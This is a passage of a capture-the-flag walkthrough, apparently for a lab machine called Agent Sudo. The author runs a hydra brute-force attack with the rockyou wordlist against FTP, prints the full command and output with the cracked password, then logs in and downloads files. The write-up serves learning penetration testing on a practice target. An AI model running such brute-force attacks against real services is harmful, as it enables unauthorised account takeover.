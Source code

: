 We found Agent C's fullname.

Answer: `chris`

## [Task 3] Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

### 3.1 - FTP password

Now that we have a username, we can try to brute-force the password on FTP and SSH service since we know the password of this user is weak. I ran the brute-force attack on both of them and successfully found the password for the FTP service using `hydra` and `rockyou` wordlist:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Agent_Sudo]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://$IP/
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-15 08:04:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.59.71:21/
[21][ftp] host: 10.10.59.71   login: chris   password: crystal
[STATUS] 14344398.00 tries/min, 14344398 tries in 00:01h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 1 valid password found
~~~

Answer: `crystal`

### 3.2 - Zip file password

Let's log into the ftp service to see what we can find there using the creds we found (`chris:crystal`). There are three files there and I downloaded all three of them:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ ftp $IP
Connected to 10.10.59.71.
220 (vsFTPd 3.0.3)
Name (10.10.59.71:user): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||50962|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 29  2019 .
drwxr-xr-x    2 0        0            4096 Oct 29  2019 ..
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *

[REDACTED]
~~~
